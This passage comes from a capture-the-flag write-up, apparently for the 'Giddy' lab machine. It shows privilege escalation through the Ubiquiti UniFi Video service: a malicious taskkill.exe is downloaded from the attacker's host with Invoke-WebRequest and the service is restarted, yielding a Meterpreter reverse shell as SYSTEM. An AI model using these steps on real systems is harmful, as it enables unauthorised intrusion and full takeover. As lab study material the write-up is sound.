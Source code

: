 To download "taskkill.exe" on our host, cd to "C:\ProgramData\unifi-video" and execute a command on Giddy.

{% highlight shell %}
PS C:\Users\Stacy\Documents> 
cd C:\ProgramData
PS C:\ProgramData> 
cd unifi-video
PS C:\ProgramData\unifi-video> 
Invoke-WebRequest -o taskkill.exe http://10.10.14.23/taskkill.exe
PS C:\ProgramData\unifi-video> 
dir
 
    Directory: C:\ProgramData\unifi-video
 
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/16/2018   9:54 PM                bin                                                                   
d-----        6/16/2018   9:55 PM                conf                                                                  
d-----        6/16/2018  10:56 PM                data                                                                  
d-----        6/16/2018   9:54 PM                email                                                                 
d-----        6/16/2018   9:54 PM                fw                                                                    
d-----        6/16/2018   9:54 PM                lib                                                                   
d-----        2/25/2019  12:12 AM                logs                                                                  
d-----        6/16/2018   9:55 PM                webapps                                                               
d-----        6/16/2018   9:55 PM                work                                                                  
-a----        7/26/2017   6:10 PM         219136 avService.exe                                                         
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log                                                    
-a----        6/17/2018  11:23 AM      534204321 hs_err_pid1992.mdmp                                                   
-a----        8/16/2018   7:47 PM              0 hs_err_pid2036.mdmp                                                   
-a----        2/27/2019   2:00 AM         254976 taskkill.exe                                                          
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk                                              
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe                                                        
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico                                                        
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe                                                         

{% endhighlight %}

Then, restart service "Ubiquiti UniFi Video"
{% highlight shell %}
PS C:\ProgramData\unifi-video> 
Stop-Service "Ubiquiti UniFi Video"

~~~

PS C:\ProgramData\unifi-video> 
Start-Service "Ubiquiti UniFi Video"

~~~

{% endhighlight %}

With these procedure, we can see that we got a meterpreter shell.<br>
Which has privilege of NT AUTHORITY\SYSTEM.

{% highlight shell %}
[*] Started HTTPS reverse handler on https://10.10.14.23:443
[*] https://10.10.14.23:443 handling request from 10.10.10.104; (UUID: fhbxmi4j) Redirecting stageless connection from /zhbkjtSs9OjYs9myhMWwjg8W-NNUTkclqLtPZjGEDiL1a5TuI with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://10.10.14.23:443 handling request from 10.10.10.104; (UUID: fhbxmi4j) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (10.10.14.23:443 -> 10.10.10.104:49708) at 2019-02-27 12:36:46 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
{% endhighlight %}
